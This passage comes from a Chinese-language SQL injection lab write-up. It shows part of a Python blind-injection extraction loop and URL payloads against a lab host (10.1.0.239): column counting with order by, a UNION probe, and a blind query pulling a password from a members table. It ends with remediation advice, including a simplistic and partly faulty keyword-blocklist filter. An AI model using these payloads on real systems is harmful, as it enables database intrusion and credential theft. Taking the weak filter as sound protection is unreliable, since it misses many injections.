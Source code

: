 ``````
                try:
                    #print(url)
                    #print(d)
                    rp = urllib.request.Request(url, headers=header)
                    respon = urllib.request.urlopen(rp)
                    html = respon.read().decode('utf-8')
                    #print(html)
                    #exit()
                    if "Foo Vinyl" in html:
                        if j==0:
                            break
                        #print(j)
                        a+=chr(j)
                        print(a)
                        c = 0
                        d = 0
                        break
                except:
                    continue
            d += 1
        c += 1
```

**第二个漏洞**报错注入

```
http://10.1.0.239/details.php?prod=1and&type=1
```
说明存在5个字段
```
http://10.1.0.239/details.php?prod=1%20order%20by%205&type=1 没报错
http://10.1.0.239/details.php?prod=1%20order%20by%206&type=1 报错了
```
进行UNION注入构造语句，发现并没有显示位。所以只能进行报错盲注了

```
http://10.1.0.239/details.php?prod=1%20union%20select%201,2,3,4,5&type=1
```
跟上面一样就是利用的地方不一样
```
http://10.1.0.239/details.php?prod=1%20and(select%20ascii(mid((select%20password%20from%20seattle.tblMembers%20limit%200,1),1,1)))=100&type=1
```


## 2x40漏洞修补建议

### 2x41使用htmlspecialchars函数在GET输入做一个过滤。

![1559822934334](assets/1559822934334.png)

### 2x42使用strpos函数在GET输入做判断是否存在关键字。

可以自定义关键字建立数组即可

```
function foo($arg)
{
    #echo $arg;
    $array = array("and", "or","xxx");
    for ($i=0; $i < 2; $i++) { 
    	if (strpos($arg,$array[$i])!== false){
        die("警告");
    }
    }
``````